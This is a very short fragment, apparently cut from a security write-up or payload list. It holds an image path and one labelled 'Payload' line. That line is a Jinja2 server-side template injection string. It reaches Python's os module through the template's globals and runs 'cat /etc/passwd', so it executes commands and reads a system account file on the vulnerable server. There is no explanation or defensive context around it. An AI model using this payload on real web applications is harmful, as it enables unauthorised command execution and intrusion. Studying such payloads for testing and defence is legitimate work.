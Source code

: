 Payload
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
